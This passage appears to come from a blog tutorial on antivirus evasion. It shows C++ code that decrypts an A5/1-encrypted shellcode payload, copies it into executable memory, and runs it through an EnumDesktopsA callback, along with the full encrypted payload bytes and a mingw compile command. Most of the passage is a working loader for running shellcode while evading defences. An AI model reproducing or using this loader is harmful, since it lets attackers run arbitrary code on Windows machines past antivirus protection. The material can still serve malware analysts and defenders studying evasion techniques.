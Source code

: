 ```cpp

  int message_len = sizeof(message);
  unsigned char decrypted[message_len];
  a5_1_decrypt(key, key_len, message, message_len, decrypted);

  printf("\ndecrypted message:\n");
  for (int i = 0; i < message_len; i++) {
    printf("%02x ", decrypted[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, message_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, decrypted, message_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  return 0;
}
```

At this point, variable:    

```cpp
unsigned char message[] = {0xe1, 0x51, 0x95, 0xbc, 0x37, 0xfd, 0xcd, 0xe9, 0x58, 0x50, 0x84, 0xfa, 0x2c, 0x21, 0x70, 0xb7, 0xa4, 0xf4, 0x2e, 0x9e, 0xb5, 0x27, 0x62, 0x6d, 0x27, 0xce, 0x7e, 0xfd, 0x6d, 0x6e, 0x01, 0x20, 0xf7, 0xbb, 0xdd, 0x68, 0x40, 0x7c, 0xb9, 0xe0, 0x8d, 0xc8, 0x61, 0x4b, 0xc9, 0xdd, 0x04, 0x1f, 0xe0, 0xe9, 0x55, 0x13, 0x9c, 0x9f, 0x49, 0x25, 0x76, 0xf7, 0x28, 0x4f, 0xbe, 0x05, 0x55, 0x68, 0x69, 0x05, 0xfb, 0xd6, 0x91, 0x9c, 0x6b, 0x26, 0x09, 0xf4, 0x5f, 0x44, 0x3d, 0x33, 0x38, 0x42, 0xc2, 0x2a, 0x80, 0x1a, 0x0c, 0xbd, 0xd4, 0xf3, 0x3c, 0xec, 0x05, 0xeb, 0xd4, 0x10, 0xbb, 0xca, 0x82, 0x01, 0x06, 0x88, 0xe5, 0x65, 0xe3, 0xdc, 0xfe, 0x77, 0x33, 0xf9, 0x64, 0xd7, 0x80, 0x09, 0x84, 0xd5, 0xc9, 0x1c, 0x09, 0xfe, 0xc3, 0x6e, 0x11, 0x0b, 0x36, 0x9c, 0x5c, 0xa1, 0xd6, 0x48, 0x34, 0xe1, 0x08, 0x70, 0xc1, 0xa6, 0x11, 0x91, 0x49, 0x0f, 0x55, 0x15, 0x61, 0x38, 0xe5, 0x70, 0xd9, 0x7e, 0x0d, 0x02, 0x46, 0x74, 0x58, 0xc5, 0x3b, 0xc5, 0x61, 0x76, 0x58, 0x3b, 0x41, 0xa3, 0x00, 0x65, 0x48, 0x0b, 0x80, 0x36, 0xbe, 0x43, 0x9f, 0x18, 0xe8, 0x3e, 0x41, 0x8e, 0x68, 0x5c, 0x08, 0x00, 0xda, 0x6e, 0x11, 0x0b, 0x06, 0x9c, 0x5c, 0xa1, 0xd0, 0x44, 0x5d, 0x69, 0x18, 0x1f, 0x58, 0x50, 0x11, 0x08, 0xc1, 0x5b, 0x55, 0x4e, 0xe8, 0x83, 0xe9, 0x25, 0x69, 0x12, 0xbe, 0xe1, 0x52, 0x11, 0x09, 0xda, 0x3c, 0x5c, 0x9f, 0xb2, 0xe9, 0x4c, 0xfa, 0xd7, 0xbf, 0x1c, 0x48, 0xcd, 0x91, 0x50, 0x80, 0x02, 0x14, 0x2a, 0xe8, 0x8d, 0x90, 0xfb, 0x28, 0x40, 0x41, 0x3f, 0x46, 0xdd, 0xd5, 0x89, 0x03, 0x14, 0x14, 0xe8, 0x31, 0xcc, 0x44, 0x92, 0x05, 0xc2, 0x57, 0x0d, 0xaf, 0x85, 0xc8, 0x33, 0xdd, 0x55, 0x1a, 0xf0, 0xb0, 0xa7, 0x7e, 0xbf, 0x94, 0x4c, 0x6f, 0x3f, 0x27, 0xad, 0x6f, 0x71, 0x7b, 0xd7, 0x21, 0x05, 0x38, 0x76, 0x6e, 0x6f, 0x5f, 0x37, 0x50, 0xc0, 0x10, 0x92};
```

is early encrypted `meow-meow` payload.     

### demo 2

Compile:     

```bash
x86_64-w64-mingw32-gcc -O2 hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![av-evasion](/assets/images/91/2023-03-25_14-23.png){:class="img-responsive"}      
